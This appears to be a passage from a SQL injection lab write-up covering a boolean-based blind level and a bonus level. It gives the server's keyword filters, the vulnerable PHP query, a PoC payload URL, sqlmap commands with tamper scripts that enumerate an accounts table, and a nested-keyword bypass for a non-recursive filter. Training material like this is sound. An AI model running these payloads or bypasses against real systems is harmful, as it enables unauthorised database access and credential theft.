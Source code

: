 ```bash
	-D selfie4you06 -T accounts \	
	--columns 
```



### 7 - Boolean-based blind
* UNION filtered out
* symboliclogical filter (AND > && , OR > ||)
* space to verical tab filter to bypass [space]OR filter

```bash
Filters:
/UNION/i
/AND/i
/ OR/i
/6163636f756e7473/
/selfie4you07.accounts/

Query;
$query = "SELECT views FROM attachments where filename='$entry';";


# PoC
TRUE:	http://hacker.site/2nd/upload.php?lab=7&payload=01.jpg'+%26%26+TRUE;%23


# SQLMAP

./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=7&payload=x" \
	-p payload --technique=B --dbms MySQL --suffix=';#' \
	--tamper="symboliclogical, space2VT.py, accounts.py" \
	--no-cast --threads=5 -v 3 \
	--banner --flush-session 
	
	
./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=7&payload=x" \
	-p payload --technique=B --dbms MySQL --suffix=';#' \
	--tamper="symboliclogical, space2VT.py, accounts.py" \
	--no-cast --threads=5 -v 3 \
	-D selfie4you07 -T accounts \
	--columns
	
```

### BONUS LEVEL(s)

IN ALL LEVELS THE FILTER IS NOT RECOURSIVE

- To exploit it you should upload first a filename with the payload you want to execute.
- This will be excluded because contains filtered words
- Then upload a new file with a name that bypass the redundant filter, such as *unUNIONnion*. 
- Once **purified** the latest filename will be the same as the fist uploaded and thus the file exitsts and can be displayed.

